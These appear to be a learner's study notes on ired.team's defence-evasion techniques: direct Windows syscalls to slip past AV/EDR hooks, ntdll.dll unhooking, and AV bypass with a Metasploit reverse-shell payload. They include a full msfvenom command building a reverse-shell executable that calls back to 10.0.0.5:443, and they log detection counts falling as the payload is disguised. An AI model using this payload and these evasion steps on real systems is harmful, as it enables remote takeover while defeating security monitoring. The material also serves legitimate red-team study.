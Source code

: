 ### calling syscalls directly from visual studio to bypass Avs/ EDRs

https://www.ired.team/offensive-security/defense-evasion/using-syscalls-directly-from-visual-studio-to-bypass-avs-edrs

We are trying to write our own functions that call syscalls directly.

1. first we built a syscalls.asm, that calls syscall 55 which is reserved for ntcreateFile. (look at syscall.asm)

2. The way we can find the procedure's prologue (mov r10, rcx, etc..) is by disassembling the function NtCreateFile (assuming it's not hooked. If hooked, just do the same for, say NtWriteFile) using WinDbg found in ntdll.dll module or within Visual Studio by resolving the function's address and viewing its disassembly there.

3. Once we have the SysNtCreateFile procedure defined in assembly, we need to define the C function prototype that will call that assembly procedure. 

4. Before testing SysNtCreateFile, we need to initialize some structures and variables (like the name of the file name to be opened, access requirements, etc.)

5. call SysNtCreateFile

The code is in `using_syscall_directly.c`

Next to do - look at how disassembly works

![](https://2603957456-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LjB_qkyhCQvQXmTWkaq%2F-LjBgbyzlmx2SIrGuGIk%2Fsyscall-debugging.gif?alt=media&token=a66279aa-f0d6-426c-bfeb-c95c8896aabb)

nt create file is not making a file currently.

# Full DLL Unhooking with C++
https://www.ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++

It's possible to completely unhook any given DLL loaded in memory, by reading the .text section of ntdll.dll from disk and putting it on top of the .text section of the ntdll.dll that is mapped in memory. 

### overview

The process for unhooking a DLL is as follows. 

Map a fresh copy of ntdll.dll from disk to process memory
Find virtual address of the .text section of the hooked ntdll.dll
    get ntdll.dll base address
    module base address + module's .text section VirtualAddress
Find virtual address of the .text section of the freshly mapped ntdll.dll
Get original memory protections of the hooked module's .text section
Copy .text section from the freshly mapped dll to the virtual address (found in step 3) of the original (hooked) ntdll.dll - this is the meat of the unhooking as all hooked bytes get overwritten with fresh ones from the disk
Apply original memory protections to the freshly unhooked .text section of the original ntdll.dll

I dont know what to do with ntdll
cant understand the code

# AV Bypass with Metsploit Templates and Custom Binaries

https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates

generating a reverse shell payload
1. msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f exe > /root/tools/av.exe

-initial detection 51

-install metatwin and check

with metatwin the detection
detection come down to 41

- uploading custom binary 18 detections

with metatwin we have 7 detection.


